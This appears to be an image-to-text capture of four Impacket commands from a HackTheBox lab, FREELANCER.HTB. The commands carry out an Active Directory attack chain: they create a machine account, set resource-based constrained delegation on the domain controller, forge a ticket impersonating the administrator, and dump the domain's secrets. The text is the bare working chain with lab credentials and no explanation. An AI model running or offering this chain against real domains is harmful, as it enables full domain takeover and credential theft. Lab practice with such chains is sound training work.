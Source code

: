     addcomputer.py -computer-name 'atacker$' -computer-pass 'P@ssword2025' -dc-host 10.10.11.5  'FREELANCER.HTB/lorra199:PWN3D#l0rr@Armessa199'

    rbcd.py -delegate-from 'atacker$' -delegate-to 'DC$' -action 'write' 'FREELANCER.HTB/lorra199:PWN3D#l0rr@Armessa199'                       

    getST.py -spn 'cifs/DC.FREELANCER.HTB' -impersonate 'administrator' 'FREELANCER.HTB/atacker$:P@ssword2025'

    KRB5CCNAME=administrator@cifs_DC.FREELANCER.HTB@FREELANCER.HTB.ccache secretsdump.py -k -no-pass -dc-ip 10.10.11.5 freelancer.htb/Administrator@dc.freelancer.htb

